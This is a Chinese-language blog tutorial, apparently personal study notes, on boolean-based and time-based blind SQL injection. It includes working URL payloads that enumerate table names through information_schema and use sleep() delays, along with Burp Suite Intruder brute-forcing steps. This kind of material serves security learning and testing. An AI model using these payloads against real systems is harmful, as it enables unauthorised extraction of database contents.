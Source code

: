 ```yaml
---
title: sql盲注笔记
toc: true
recommend: 1
uniqueId: '2021-05-04 15:59:48/sql-injection-blind.html'
mathJax: false
date: 2021-05-04 23:59:48
thumbnail:
tags:
categories:
keywords:
---
```

> 什么是盲注？在sql注入点输入sql语句不回显任何数据，只返回了网页处理的结果（使用布尔盲注），甚至不返回结果（设置数据库查询时间，时间盲注）
>
> 盲注是非常繁琐的，需要不断的更改url进行判断，可以用BP的intruder模块配合

<!-- more -->

## 布尔盲注

从注入点得到当前数据库的表数

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/bool-blind.png)

使用BP暴出数据库的名字（一个字母一个字母的暴破）

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/bp-sql-blind.png)

爆破该数据库第一张表的名字(也是一个字母一个字母)

```sql
?id=1' and (select table_name 
			from information_schema.tables 
			where table_schema = database() 
			limit 0,1) 
		like 'u%' --+
```

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/bp-sql-blind2.png)

## 时间盲注

如果连网页处理结果都不给的话，还可以设置数据库查询时间进行盲注

比如下面这个页面，不管输入什么都显示一个样

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/sql-injection-blind-time.png)

利用时间注入，当sql语句运行成功时延时2s

```sql
?id=1' and if(
left(database(),1)='x', sleep(2), 0)
--+
```

进BP的intruder模块进行爆破

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/sql-injection-blind-time2.png)

可以看到响应2s的是开头为s的url，所以数据库的首字母为s

注意：因为没有错误提醒，所以一定要注意在url里sql语法上的问题